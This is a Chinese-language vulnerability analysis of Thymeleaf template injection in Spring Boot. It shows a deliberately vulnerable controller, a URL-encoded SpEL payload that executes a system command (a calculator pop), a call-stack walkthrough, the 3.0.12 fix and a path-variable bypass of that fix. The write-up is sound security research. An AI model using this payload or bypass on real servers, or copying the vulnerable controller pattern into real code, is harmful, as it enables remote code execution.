


## Thymeleaf模板注入

**Author:Cinderella**

### 简介

Thymeleaf是用于Web和独立环境的现代服务器端Java模板引擎。类似与python web开发中的jinja模板引擎。顺便说一句，Thymeleaf是spring boot的推荐引擎

### Spring Boot解析流程

实际上SpringBoot本身就是基于Spring MVC的简化版本，自动化将繁杂的配置配置好，让开发人员能够将注意力集中到开发过程中。所以整体解析其实还是依赖于Spring MVC框架，离不开MVC模式。以下是Spring MVC的工作原理。在SpringBoot中则是自动将DispatcherServlet 配置到框架。


重要流程如下：

1. 客户端(浏览器)发送请求，直接请求到 DispatcherServlet 。
2. DispatcherServlet 根据请求信息调用 HandlerMapping ，解析请求对应的 Handler 。
3. 解析到对应的 Handler (也就是我们平常说的 Controller 控制器)后，开始由HandlerAdapter 适配器处理。
4. HandlerAdapter 会根据 Handler 来调用真正的处理器开处理请求，并处理相应的业务逻辑。
5. 处理器处理完业务后，会返回一个 ModelAndView 对象， Model 是返回的数据对象， View 是 个逻辑上的 View 。
6. ViewResolver 会根据逻辑 View 查找实际的 View 。
7. DispaterServlet 把返回的 Model 传给 View (视图渲染)。
8. 把 View 返回给请求者(浏览器)

### 环境配置

在Maven中配置必要的Thymeleaf版本为3.0.11

```xml
<properties>
    <java.version>1.8</java.version>
    <thymeleaf.version>3.0.11.RELEASE</thymeleaf.version>
</properties>
```

测试Controller

```java
@Controller
public class TestController {
    private Logger logger = LoggerFactory.getLogger(this.getClass());

    @GetMapping("/")
    public String index(Model model){
        model.addAttribute("message","Hello World!");
        return "welcome";
    }

    @GetMapping("/path")
    public String path(@RequestParam String lang){
        return lang ;
    }

    @GetMapping("/doc/{lang}")
    public String test2(@PathVariable String lang){
        logger.info("Lang:"+lang);
        return "user/" + lang + "/welcome";
    }
}
```

目录：


测试Payload：

```java
__$%7bT%20(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22)%7d__::.x/
```

成功弹窗


### 漏洞分析

我们知道Spring Boot的解析流程，前面让系统处置，我们重点放在ModelAndView阶段，毕竟是该阶段将我们的恶意代码返回到Thymeleaf引擎中并进行解析执行SPEL表达式

经过调用，调用栈如下：

```
handle:87, AbstractHandlerMethodAdapter (org.springframework.web.servlet.mvc.method)
doDispatch:1067, DispatcherServlet (org.springframework.web.servlet)
doService:963, DispatcherServlet (org.springframework.web.servlet)
processRequest:1006, FrameworkServlet (org.springframework.web.servlet)
doGet:898, FrameworkServlet (org.springframework.web.servlet)
service:655, HttpServlet (javax.servlet.http)
service:883, FrameworkServlet (org.springframework.web.servlet)
service:764, HttpServlet (javax.servlet.http)
internalDoFilter:227, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilter:53, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
invoke:197, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:540, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:135, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:357, CoyoteAdapter (org.apache.catalina.connector)
service:382, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:895, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1722, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1191, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:659, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang)
```

直接定位到org.springframework.web.servlet.mvc.method.AbstractHandlerMethodAdapter#handle


之后调用org.springframework.web.servlet.mvc.method.annotation.ServletInvocableHandlerMethod#invokeAndHandle中的invokeForRequest


进入org.springframework.web.method.support.InvocableHandlerMethod#invokeForRequest根据提供的URI找到对应的Controller


中间调用栈如下：

```
path:27, TestController (com.example.thymeleafi)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:483, Method (java.lang.reflect)
doInvoke:205, InvocableHandlerMethod (org.springframework.web.method.support)
invokeForRequest:150, InvocableHandlerMethod (org.springframework.web.method.support)
```

找到对应的Controller，即我们编写的POC，将我们传入的payload作为模板文件名，然后进入Thymeleaf模板引擎进行查找


之后经过调用进入org.springframework.web.servlet.view.UrlBasedViewResolver#createView，这里其实已经到了servlet


然后跟进到org.springframework.web.servlet.DispatcherServlet#processDispatchResult，这里直接进入render，其实这里就是将我们传入的视图名称作为模板名称，并加载模板，调用Thymeleaf模板引擎的表达式解析。



这里经过render进入org.thymeleaf.spring5.view.ThymeleafView#renderFragment，这里将viewTemplateName进行必要拼接后进入parseExpression进行解析


继续跟进org.thymeleaf.standard.expression.StandardExpressionParser#parseExpression(org.thymeleaf.context.IExpressionContext, java.lang.String, boolean)，这里会对我们传入的input进行预处理工作，最后返回处理完成的表达式


这里比较长，我们分段进行分析，在org.thymeleaf.standard.expression.StandardExpressionPreprocessor中，这是固定的final String


会先进行匹配解析出\__xx__中的字符作为表达式



最终在这里执行我们的表达式


### PayLoad构建

其实经过上面分析，其实基本就知道为什么payload如此构建

首先是\_\_xx\_\_，这里直接看上面的分析结合下面就知道\_\_${xxx}\_\_格式，因为里面是SPEL表达式


至于`::`，是因为org.thymeleaf.spring5.view.ThymeleafView#renderFragment里的需求


至于.x其实更简单，片段表达式后面必须有值


也就是说任意值都可以触发，.x只不过是公布出来的而已


### 漏洞修复

官方在3.0.12中对漏洞进行了修复工作

根据报错定位到org.thymeleaf.spring5.util.SpringRequestUtils#checkViewNameNotInRequest


这段代码其实比较好理解，先预先设置一个vn值，就是我们传入的View的值，之后如果从URL中取得的值和vn相匹配，那么就报错避免将View值当作表达式执行

```
org.thymeleaf.exceptions.TemplateProcessingException: View name is an executable expression, and it is present in a literal manner in request path or parameters, which is forbidden for security reasons.
```

### 修复ByPass

其实这样看来传统的从参数中传入恶意代码执行命令的方式已经被封堵了，但是其实Thymeleaf还是存在另外的利用方式，即然传参数不行，那么参数路径呢？


正常使用如下：


如果采用这种方式，传入正常的恶意代码还是可以利用的，为什么呢？


原因其实很简单，出在这里org.thymeleaf.spring5.util.SpringRequestUtils#checkViewNameNotInRequest


```
paramNames.hasMoreElements()为false，因为获取的是请求中的参数，而我们传入的是路径！
```


导致直接绕过了修复

### 修复建议

1. 建议应用前后端分离技术，设置`ResponseBody`注解
2. 如果有必要跳转，建议写死跳转路径，而不是直接获取不可信参数
3. 使用过滤器，过滤特殊字符
4. 设置白名单，使用白名单匹配要跳转的路径

### 参考

[java 安全开发之 spring boot Thymeleaf 模板注入](https://paper.seebug.org/1332/)